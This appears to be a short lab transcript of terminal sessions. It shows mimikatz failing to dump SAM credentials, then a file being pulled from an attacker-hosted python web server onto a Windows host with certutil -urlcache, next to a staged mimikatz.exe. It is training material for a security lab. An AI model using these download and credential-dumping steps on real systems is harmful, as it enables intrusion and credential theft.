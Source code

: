 ```
ERROR kull_m_registry_OpenAndQueryWithAlloc ; kull_m_registry_RegOpenKeyEx KO
ERROR kuhl_m_lsadump_getUsersAndSamKey ; kull_m_registry_RegOpenKeyEx SAM Accounts (0x00000005)

mimikatz # exit
Bye!
```

Tab3

```
root@attackdefense:/usr/share/windows-resources/mimikatz/x64# cd /root
root@attackdefense:~# echo "this is some test data" > test.txt
root@attackdefense:~# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

Tab2

```
c:\Temp>certutil -urlcache -f http://10.10.21.3/test.txt test.txt
certutil -urlcache -f http://10.10.21.3/test.txt test.txt
****  Online  ****
CertUtil: -URLCache command completed successfully.

```

Tab3

```
root@attackdefense:~# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.0.25.234 - - [22/Jun/2023 07:19:48] "GET /test.txt HTTP/1.1" 200 -
10.0.25.234 - - [22/Jun/2023 07:19:48] "GET /test.txt HTTP/1.1" 200 -

```

Tab2

```
c:\Temp>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AEDF-99BD

 Directory of c:\Temp

06/22/2023  01:49 AM    <DIR>          .
06/22/2023  01:49 AM    <DIR>          ..
06/22/2023  01:43 AM         1,240,840 mimikatz.exe
06/22/2023  01:49 AM                23 test.txt
               2 File(s)      1,240,863 bytes
               2 Dir(s)   9,312,514,048 bytes free

c:\Temp>type test.txt
type test.txt
this is some test data
```